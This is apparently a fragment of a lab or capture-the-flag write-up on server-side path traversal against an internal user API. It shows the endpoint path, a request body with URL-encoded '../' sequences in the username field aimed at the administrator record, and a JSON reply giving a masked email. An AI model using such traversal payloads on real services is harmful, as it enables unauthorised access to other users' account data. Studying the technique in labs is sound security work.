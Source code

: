 ![alt text](image-39.png)

-> /api/internal/v1/users/{username}/field/{field}

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator

![alt text](image-40.png)

output: 
{"result":"*****@normal-user.net","type":"email"}

input: ..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2femail

![alt text](image-41.png)
